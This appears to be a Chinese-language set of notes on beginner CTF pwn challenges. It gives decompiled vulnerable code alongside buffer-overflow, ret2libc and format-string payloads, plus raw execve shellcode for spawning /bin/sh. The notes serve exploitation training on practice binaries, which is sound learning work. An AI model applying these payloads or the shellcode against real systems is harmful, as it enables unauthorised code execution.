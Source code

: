 顺序：

get_shell
连上就可以得到shell，payload=‘’
简单介绍做pwn题的两种方法及peda安装方法

hello_pwn
两个buffer间的偏移溢出。输入与判断间相差4个字节payload = 'A' * 4 + p64(1853186401)
read(0,&unk_601068,0x10ull)
if(dword_60106C == 1853186401) sub_400686(0LL,&unk_601068)
大小端序，简单介绍做法和exp

level0
最简单的缓冲区溢出，read函数中栈的长度小于第三个参数payload='a'*0x88+p64(0x400596)
return read(0,&buf,0x200uLL)
int callsystem() {return system("/bin/sh")}
Linux下文件改名:mv
64位程序逆序中寄存器占8位，64位传参顺序rdi,rsi,rdx,rcx,r8,r9(适用于Linux系统)
		      64位传参顺序rcx,rdx,r8,r9(适用于Windows系统)，除前四个参数之外的任何其他参数通过栈传递，从右至左入栈
system("/bin/sh")可以提供一个shell，使用它可以进行查看/修改/操作等动作
IDA中栈s与r的含义，ebp和eip
ELF直接获取函数地址：elf.symbols['callsystem']
exp最详细注释
ROPgadget的用法：获取字符串地址与返回值地址，objdump得到plt表的地址

level2
level0升级版，没有直接给出system("/bin/sh")函数，而是给出了system函数地址与/bin/sh字符串地址payload='a'*0x8C+p32(0x8048320)+'a'*4+p32(0x804A024)
return read(0,&buf,0x100u);
system填写的是plt表的地址，此外注意栈的结构：调用函数地址->函数的返回地址->参数n->参数n-1->···->参数1
题解
system函数地址可以是plt表中的也可以是.got.plt表中的
x32四种调用约定的参数各自放在不同的地方，x64会放在rdi,rsi,rdx,rcx,r8,r9六个寄存器里（Linux环境中），windows下参数放在rcx,rdx,r8,r9寄存器中
调用函数时栈的结构为：调用函数地址->函数的返回地址->参数n->参数n-1->···->参数1

when_did_you_born
两个buffer间的偏移溢出，结果等于1926自动执行system("cat flag")语句，与hello_pwn题相同，不同点是脆弱点函数payload = 'a'*8+p64(1926)//v6在栈中是dd，因此用p64
gets(&v5)
if(v6==1926)
题解
checksec
file
./运行查看功能
写exp时字符前面加b，可转成bytes，避免报错。例如b'a'*(0x20-0x18)

guess_num
通过溢出，覆盖seed，生成我们自己的种子密钥，再用c编程实现该过程payload='a'*0x20+p64(1)	num=["2","5","4","2","6","2","5","1","4","2"] 	for i in range(10)://seed在栈中是dd类型
gets(&v11)
srand(seed[0])
题解
两种系统下生成的伪随机数不一样
官方解法：libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')	lib.srand(1)


int_overflow
输入1进入login函数，没问题，进入check_passwd函数，发现脆弱点函数strcpy(&dest, s);把s的值复制到dest，如果s的值够长，就能造出栈溢出。此外对于范围检查，使用整形溢出绕过payload = "a"*0x14+"a"*4+p32(0x804868b)+"a"*(256-0x18-4)+"a"*4
read(0, &buf, 0x199u);//sizeof(buf)>0x199，不存在溢出
if ( v3 <= 3u || v3 > 8u ){}//unsigned __int8 v3，如果v3=256，则溢出为1
else	result = strcpy(&dest, s);
题解
read函数不能当脆弱点原因
本题中payload构成


cgpwn2
危险函数gets(&s)可以溢出，name为全局变量，地址不变，利用该空间存放/bin/sh。system函数地址由plt表给出payload = "a"*0x26+"a"*0x4+p32(system)+"a"*4+p32(name)
fgets(name, 50, stdin);
return gets(&s);
题目流程
name位于bss区，可将字符串写入name变量

level3
危险函数read(0，&buf，0x100u)，栈长度大于0x100,溢出但没有system函数地址与/bin/sh字符串地址。需要got表查找。通过栈溢出，利用 write 函数将其本身在GOT表中的地址泄露出来，减去在 libc_32.so 中的偏移，得到基址，紧接着重新进入 main 函数，再次通过栈溢出，利用 system 函数完成get shell
payload = 'A'*0x88 + p32(0xdeadbeef) + p32(write_plt) + p32(main_addr) + p32(1) + p32(write_got) + p32(0xdeadbeef)
payload0 = 'A'*0x88 + p32(0xdeadbeef) + p32(sys_addr) + p32(0xdeadbeef) + p32(bin_sh_addr)
read(0，&buf，0x100u)
write函数为0，1，2时的特殊用途（标准输入，标准输入，错误输出），系统定制，无须open
PLT（内部表），GOT（全局表），PLT表存放GOT表的地址，PLT表通过GOT表得到函数真实地址
本题思路：libc中的函数的相对地址是固定的，要想获取到system函数的地址，可以通过write()函数进行offset计算。
.plt与.got表描述：got表动态表，相当于实际偏移的指针。
plt表要么在 .got.plt 节中拿到地址，并跳转。要么当 .got.plt 没有所需地址的时，触发「链接器」去找到所需地址，并填充到.got.plt节中，并跳转，其是由代码片段组成的，每个代码片段都跳转到GOT表中的一个具体的函数调用（每个程序中该表都不会变化，因此是静态表，指针的指针）
.got.plt 中的值是 GOT 的一部分。它包含上述 PLT 表所需地址（已经找到的和需要去触发的）。相当于.plt的GOT全局偏移表，内容有两种情况：1）如果之前查找到该符号，内容为外部函数的具体地址，2）如果没查找过，内容为跳转会.plt的地址。（快速查找表）


CGfsb
if ( pwnme == 8 ){system("cat flag");}。在 printf 中，使用 *<a_number_of_chars>%<number>$n* 就可以将相应的第 *<number>* 个参数的位置写为 % 前输出的字符数量。而pwnme是.bss段的全局变量，地址不变。payload=p32(pwnme_addr)+'aaaa'+'%10$n'
printf((const char *)&v8);
题解
%n的用法
payload写法


string
进入main函数中，发现main函数调用sub_400D72()函数，进入该函数，发现该函数调用sub_400A7D()，sub_400BB9()和sub_400CA6()三个函数，第一个函数为输入east跳出循环。第二个函数中指令printf(&format,&format)存在格式化字符串漏洞，可以进行任意地址写。值得注意的是在他的上面有两个输入点，一个是“%ld”格式，一个是“%s”格式。第三个函数存在指令为((void(*fastcall *)(_QWORD,void *)v1)(0LL,v1)是将v1强制转化为函数指针类型，然后调用该函数。最后一个函数中的强制转换指令类型为脆弱点，该语句将V1一个void指针强制类型转换成函数指针并调用了，所以我们将shellcode通过上面的read写入就会得到shell。而执行该条指令的条件为*(DWORD *)a1 == *(DWORD*)(a1+4)，即a1[0]==a1[1]。回溯该变量，发现该变量为主函数中的v5，而v5=(__int64)v4。*v4=68,v4[1]=85，我们要做的就是将*v4=v4[1]，这里就需要利用第二个函数中的格式化字符串漏洞，从而将v4[0]的值改为85.
conn.sendlineafter('And, you wish is:', '%85c%7$n')	shellcode = '\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05'
printf(&format, &format);
((void (__fastcall *)(_QWORD, void *))v1)(0LL, v1);
在 printf 中，使用 *<a_number_of_chars>%<number>$n* 就可以将相应的第 *<number>* 个参数的位置写为 % 前输出的字符数量
x64的调用约定
题解






